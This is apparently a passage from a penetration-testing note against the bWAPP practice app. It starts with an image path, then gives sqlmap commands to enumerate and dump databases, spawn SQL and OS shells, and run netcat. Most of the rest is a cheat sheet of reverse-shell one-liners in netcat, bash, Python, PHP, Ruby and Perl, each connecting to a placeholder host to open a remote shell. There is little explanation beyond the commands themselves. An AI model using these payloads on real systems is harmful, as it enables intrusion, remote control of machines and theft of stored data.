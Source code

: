 Then use BurpSuit to compromise the request; and use `sqlmap` to enumerate the databases

#### SQLMAP Enumeration command
----
`sqlmap -r fileName --dbs`
`sqlmap -r fileName -D bWAPP --tables`
`sqlmap -r fileName -D bWAPP -T users --columns`
`sqlmap -r fileName --dump-all`
`sqlmap -r fileName --sql-shell`
`sqlmap -r fileName --os-shell`
`sqlmap -r fileName --os-command=nc -e /bin/sh 0.0.0.0 8080`

Try to connect a shell; Reverse Shell examples are below

NetCat
```
nc -e /bin/sh 0.0.0.0 8080
```

bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

python2.7
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

php
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("bin/sh -i <&3 >&3 2>&3");'
```

ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
